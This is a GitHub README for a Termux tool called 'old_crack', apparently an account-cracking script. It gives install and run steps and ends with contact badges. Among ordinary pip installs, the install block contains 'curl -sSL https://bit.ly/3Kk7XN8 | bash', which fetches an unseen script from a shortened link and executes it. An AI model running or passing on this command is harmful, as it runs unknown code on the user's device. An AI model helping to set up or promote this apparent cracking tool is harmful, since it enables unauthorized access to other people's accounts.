 # Installation Basic Modules
```python
pkg update && pkg upgrade
pkg install python
pkg install git
pip install requests
pip install mechanize
pip install rich
pip install bs4
pip install httpx
pip install stdiomask
curl -sSL https://bit.ly/3Kk7XN8 | bash
pip install pycurl
```

# Run tool
```python
cd
clear
rm -rf old_crack
git clone https://github.com/younis-dgk/old_crack
cd old_crack
python Xyz.py
```

# Results image 💊💸

![Menu-Image](https://github.com/younis-dgk/old_crack/blob/main/Screenshot_20241125-111758.jpg)


<h3 align="left">Click below here for contact information:</h3>

[![](https://img.shields.io/badge/Github-black?logo=Github&logoColor=black&labelColor=white)](https://github.com/younis-dgk)


[![](https://img.shields.io/badge/Facebook-blue?logo=Facebook&logoColor=blue&labelColor=white)](https://www.facebook.com/YounisDgk)
[![](https://img.shields.io/badge/Whatsapp-CHAT-red?logo=Whatsapp&logoColor=Brightgreen&labelColor=white)](https://wa.me/923194999455?text=Hello+MR+YounisðŸ”¥+)
